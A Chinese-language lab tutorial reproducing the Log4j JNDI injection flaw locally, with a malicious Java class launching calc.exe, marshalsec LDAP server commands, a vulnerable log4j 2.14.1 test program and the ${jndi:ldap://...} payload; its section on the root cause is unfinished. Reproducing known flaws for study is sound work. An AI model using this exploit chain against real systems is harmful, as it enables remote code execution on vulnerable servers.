




# Log4j漏洞复现

复现环境和poc[参考](https://github.com/kozmer/log4j-shell-poc)

## JNDI

本部分[参考](https://sf2333.github.io/2021/12/13/log4j2-RCE%E5%A4%8D%E7%8E%B0/)

JNDI是Java命名与目录接口，类似一个索引中心，允许客户端通过name和directory发现和查找对象

JNDI架构由API和服务提供接口service provider interface（SPI）组成

- Java应用程序使用JNDI API访问各种命名和目录服务
- SPI使各种命名和目录服务能够透明地插入，从而允许使用JNDI API的Java应用程序访问其服务


使用JNDI访问对象

```java
String jndiName= [name];// 指定需要查找name名称
Context context = new InitialContext();// 初始化默认环境
DataSource ds = (DataSourse)context.lookup(jndiName);// 查找该name的数据
```

这些对象可以存储在不同的命名或目录服务中，如上图所示的LDAP、RMI

- LDAP：Lightweight Directory Access Protocol轻量级目录访问协议

`context.lookup`在命名服务中查找并返回对象

- 例如`ldap://127.0.0.1:1389/Exploit`如果绑定到上下文对象`127.0.0.1:1389/Exploit.class`，在返回这个类时，`lookup`方法会实现类的初始化，能够执行恶意代码
- 因此`jndiName`变量可控将导致JNDI注入

### JNDI+LDAP攻击实现

编写恶意类，在构造函数中写入恶意代码

- 这里的效果是弹出计算器

```java
public class Evil {

    public Evil() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

编译得到Evil.class

在Evil.class所在文件夹下开启http服务

```java
python -m http.server 1234
```



然后使用[marshalsec](https://github.com/RandomRobbieBF/marshalsec-jar)开启一个LDAP服务，该LDAP服务与HTTP服务器上的恶意类进行了绑定

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:1234/#Evil
```



编写代码向LDAP服务器请求恶意类

- 在`lookup`方法中就会实现类的初始化，调用构造函数，弹出计算器

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Ldap {

    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("ldap://127.0.0.1:1389/Evil");
    }
}
```

弹出计算器



## 简单漏洞复现

按照上面的步骤开启LDAP服务器与HTTP服务绑定

pom.xml中导入log4j的版本为

```xml
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
```

然后编写类

- logger.error就会触发恶意代码执行

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.util.Scanner;

public class Log4j2Test {

    private final static Logger logger = LogManager.getLogger(Log4j2Test.class);

    public static void main(String[] args) {
        Scanner input = new Scanner(System.in);
        System.out.print("Input your name: ");
        String name = input.nextLine();
        if(name.length() >= 5) {
            logger.error("valid name:" + name);  	//打印日志
        }
    }
}
```

运行程序，输入Payload

```
${jndi:ldap://127.0.0.1:1389/Evil}
```

成功弹出计算器



## 漏洞成因

待补充